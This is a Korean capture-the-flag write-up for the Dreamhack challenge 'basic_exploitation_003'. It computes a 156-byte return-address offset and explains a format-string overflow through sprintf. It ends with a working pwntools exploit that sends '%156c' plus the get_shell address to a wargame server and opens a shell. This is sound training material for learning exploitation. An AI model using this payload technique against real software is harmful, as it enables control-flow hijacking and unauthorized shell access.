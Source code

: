 `ret`이 수행되기 직전까지 `ni`를 통해 이동해서 `esp`의 상태를 확인해보면, 바로 `[esp]`에 `0xf7da1519`가 존재하는 것을 확인할 수 있고, 해당 위치는 `0xffffd02c` 이다.

그럼 `stack_buf`와의 오프셋을 계산해보면 아래와 같이 `156` 이라는 것을 알 수 있다.

<img width="530" alt="image" src="https://github.com/user-attachments/assets/721443b0-bbf0-4f0d-b6f7-957bc4d50895">

따라서, 이제 `stack_buf`에 `156`개의 공백을 입력해준 후, `get_shell`의 주소를 덮어주면 `RAO` 공격이 가능할 것이다.

## Format String Bug

이제, `stack_buf`에 `156`개의 공백과 `get_shell`의 주소를 어떻게 입력할 수 있는지 살펴보자.

`read(0, heap_buf, 0x80);`로 `heap_buf`에 **`%156c` + `p32(get_shell)`**을 입력해주면, `sprintf(stack_buf, heap_buf);`를 통해 `156`개의 공백이 출력되고, `get_shell`의 주소가 입력될 것이다.

### 주의할 점

처음에, `FSB`를 할 때, `stack_buf`가 `esp + 0x8`에 위치한다는 것을 통해 `%156c%3$n`를 입력해주어서 `stack_buf`에 156개의 공백을 입력해주려고 했다. (사실 생각해보면 `sprintf`가 `stack_buf`에 바로 입력이 되도록 해주기 때문에 이렇게 할 필요가 없긴 하다.)

근데, 이렇게 하면 안되는 이유가 `%n`은 `[esp + 0x__]`에 저장된 값을 주소로 해석해서, 그 주소가 가리키는 값에 현재까지 출력된 문자열의 길이를 대입해준다.

근데, 처음에 `stack_buf`는 전부 `0`으로 초기화되어 있기 때문에 `[esp + 0x8]`에는 `0`이 저장되어 있을 것이고, 이렇게 되면 `0`을 주소값으로 해석해서 `0x0` 번지에 156개의 공백을 입력해주는 것이므로 `SegFault`가 발생한다.

**항상 `%n`은 `[esp + 0x__]`에 저장된 값을 포인터로 해석해서 해당 주소가 가리키는 위치에 현재까지 출력된 문자열의 길이를 대입해준다는 것을 기억하자.**

## Exploit Code

```
from pwn import *

context.arch = "i386"

p = remote("host3.dreamhack.games", 12200)
elf = ELF("./basic_exploitation_003")

get_shell = elf.symbols['get_shell']
# get_shell = 0x8048669

# return_address - $rsp = 164
# &stack_buf - $rsp = 8 : [rsp + 0x8]
# return_address - &stack_buf = 156
payload = b"%156c"
# payload = b"%156c%3$n"
payload += p32(get_shell)

p.send(payload)
p.interactive()
```

# 틀린 풀이 방법 1. 
